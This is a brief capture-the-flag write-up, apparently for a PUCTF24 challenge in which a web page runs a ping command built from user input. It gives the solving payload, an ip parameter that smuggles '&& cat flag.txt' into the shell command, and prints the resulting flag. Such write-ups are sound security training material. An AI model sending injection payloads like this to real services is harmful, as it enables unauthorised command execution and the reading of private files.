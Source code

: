 ## Secret Flag 秘旗

website run ping command for you<br>
=> ping command example `ping -c 2 127.0.0.1`<br>
=> template `ping -c ${count} ${ip}`<br>
=> send payload `?times=1&ip="127.0.0.1&&cat flag.txt"`

PUCTF24{Rem0te_C0de_Execut10n_exp101t_thr0ugh_c0mmand_1nject10n}
